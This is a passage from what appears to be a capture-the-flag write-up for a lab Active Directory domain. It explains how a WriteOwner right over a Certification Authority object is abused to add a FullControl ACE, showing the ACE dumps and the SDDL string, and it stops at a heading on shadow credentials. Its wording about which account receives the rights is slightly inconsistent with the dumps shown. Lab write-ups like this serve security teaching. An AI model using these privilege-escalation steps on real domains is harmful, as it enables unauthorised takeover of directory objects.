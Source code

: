 This **SID** is `ryan`'s, and we can see here this **WriteOwner** permission set as `WO`. More human-readable, it will look like:

```
AceType               : AccessAllowed
ObjectDN              : CN=Certification Authority,CN=Users,DC=sequel,DC=htb
ActiveDirectoryRights : WriteOwner <---- PERMISSION
OpaqueLength          : 0
ObjectSID             : S-1-5-21-548670397-972687484-3496335370-1607
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-548670397-972687484-3496335370-1114 <--- ryan SID
AccessMask            : 524288
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

So, okay, we asked LDAP for this DACL, now what? Well, in the previous step, we changed the owner of this object to `ryan`. Now, we are allowed to **modify those ACEs**, and as we specified in the arguments, we will **add a new ACE** that specifies **FullControl** to `ca_svc`. The following ACE will be added:

```
(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-548670397-972687484-3496335370-1114)
```

As we can see, now, instead of `WO`, the third value contains a bunch of rights, those are every single AD-defined right, so we have **total control over the object** when we act as `ryan`.

```
AceType               : AccessAllowed
ObjectDN              : CN=Certification Authority,CN=Users,DC=sequel,DC=htb
ActiveDirectoryRights : CreateChild, Self, WriteProperty, ExtendedRight, Delete, GenericRead, WriteDacl, WriteOwner <---- HERE
OpaqueLength          : 0
ObjectSID             : S-1-5-21-548670397-972687484-3496335370-1607
InheritanceFlags      : ContainerInherit
BinaryLength          : 24
IsInherited           : True
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-32-544
AccessMask            : 983485
AuditFlags            : None
AceFlags              : ContainerInherit, Inherited
AceQualifier          : AccessAllowed

```
---

## Obtaining Shadow Credentials
